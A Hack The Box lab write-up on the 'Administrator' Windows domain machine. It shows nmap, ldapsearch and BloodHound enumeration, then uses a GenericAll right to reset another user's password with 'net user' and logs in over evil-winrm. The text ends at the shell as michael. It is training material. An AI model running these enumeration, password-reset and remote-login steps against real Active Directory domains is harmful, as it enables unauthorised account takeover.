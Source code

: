 ```yaml
---
title: Hack The Box - CTF Lab - Administrator - Medium
date: 2025-06-07 00:00:01 +0800
image: /images/thumbnails/Administrator.jpg
categories: [HTB Labs]
tags: [CPTS, Medium]
---
```

Administrator is a medium-difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. To gain access to the michael account, ACLs (Access Control Lists) over privileged objects are enumerated, leading us to discover that the user olivia has GenericAll permissions over michael, allowing us to reset his password. With access as michael, it is revealed that he can force a password change on the user benjamin, whose password is reset. This grants access to FTP where a backup.psafe3 file is discovered, cracked, and reveals credentials for several users. These credentials are sprayed across the domain, revealing valid credentials for the user emily. Further enumeration shows that emily has GenericWrite permissions over the user ethan, allowing us to perform a targeted Kerberoasting attack. The recovered hash is cracked and reveals valid credentials for ethan, who is found to have DCSync rights ultimately allowing retrieval of the Administrator account hash and full domain compromise.

" As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich "

First we do a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.11.42

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-06 19:54 EDT
Nmap scan report for 10.10.11.42
Host is up (0.031s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-07 06:54:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
57554/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
57559/tcp open  msrpc         Microsoft Windows RPC
57570/tcp open  msrpc         Microsoft Windows RPC
57581/tcp open  msrpc         Microsoft Windows RPC
57617/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-07T06:55:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.39 seconds
```
We notice the presence of an ftp server on port 21. 

We try to connect to it with the provided user credentials:
```
ftp Olivia@10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
331 Password required
Password: 
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp> 
```
but the user Olivia is either restricted or does not have an ftp directory.

From the credentials we were given (Olivia:ichliebedich), let's test if this is a local computer account or a domain user account by using ldapsearch:
```
ldapsearch -x -H ldap://10.10.11.42 -D "ADMINISTRATOR\Olivia" -w ichliebedich -b "DC=administrator,DC=htb0" -s sub "(objectClass=*)"
# extended LDIF
#
# LDAPv3
# base <DC=administrator,DC=htb0> with scope subtree
# filter: (objectClass=*)
# requesting: ALL
#

# search result
search: 2
result: 10 Referral
text: 0000202B: RefErr: DSID-0310084B, data 0, 1 access points
	ref 1: 'adminis
 trator.htb0'

ref: ldap://administrator.htb0/DC=administrator,DC=htb0

# numResponses: 1
```
and by using the NETBIOS format we see that there is an entry on the domain controller.

Now that we have confirmed these are domain user credentials, we can use bloodhound.py to ingest the LDAP data from the domain controller. 
```
pipx install bloodhound-ce

bloodhound-ce-python -u Olivia -p ichliebedich -d administrator.htb -c All -ns 10.10.11.42 -dc administrator.htb
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 05S
```
Then we can use our bloodhound installation (installation guide at https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart) and import all of these files generated by the bloodhound-ce-python collector.

After everything is imported, we can go ahead and find all the attributes of our user Olivia in Bloodhound.

In pathfinding, we see that Olivia has GenericAll permissions to a user called Michael, meaning that we have complete control over the user object Michael:
![image tooltip](images/screenshots/Screenshot%202025-06-07%20135530.png)

We can then use the net user 

From the nmap scan, since port 5985 is open on the domain controller 10.10.11.42, we can use evil win-rm to login with Olivia's credentials and change the password of Michael's account:
```
sudo evil-winrm -i 10.10.11.42 -u Olivia -p ichliebedich
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> net user michael Password123@ /domain
The command completed successfully.
```
Now we can connect to Michael's account:
```
sudo evil-winrm -i 10.10.11.42 -u michael -p Password123@
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\michael\Documents> 
```
















